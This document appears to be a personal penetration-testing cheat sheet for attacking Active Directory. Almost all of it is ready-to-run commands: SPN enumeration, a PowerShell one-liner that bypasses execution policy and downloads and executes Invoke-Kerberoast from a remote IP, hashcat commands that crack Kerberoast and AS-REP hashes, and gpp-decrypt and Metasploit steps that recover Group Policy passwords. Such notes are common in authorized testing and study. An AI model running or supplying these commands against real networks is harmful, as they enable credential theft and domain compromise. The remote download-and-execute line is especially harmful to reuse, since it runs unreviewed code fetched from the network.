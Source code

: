 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

AD

**KERBEROASTING**

Enumerating Accounts in SPN (Service Principal Name):

Powershell Commands when Accessible

~~~PowerShell
setspn -T "DOMAIN\USER" -Q ​ */*
~~~

~~~PowerShell
powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('http://10.13.7.30/Windows/Powershell/Empire/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -erroraction silentlycontinue -OutputFormat Hashcat
~~~

Decrypt etype23 Hashes from Kerberoasted passwords:

format::
$krb5tgs$23$*SQLService$CONTROLLER.local$CONTROLLER-1/SQLService.CONTROLLER.local:30111*$A88A8D57DAEBC82CC......

~~~bash
hashcat -m 13100 -​a 0 hash.txt wordlist --force
~~~

Decrypt etype23 Hashes from AS-REP passwords:

format::
$krb5asrep$Admin2@CONTROLLER.local:C669E64E38F0BDC104039C58......

~~~bash
hashcat -m 18200 hash.txt Pass.txt
~~~

**GPP**

https://www.rapid7.com/blog/post/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/

Relies on groups.xml found in sysvol

~~~bash
gpp-decrypt Hash
~~~

Metasploit post module

~~~bash
smb_enum_gpp
~~~

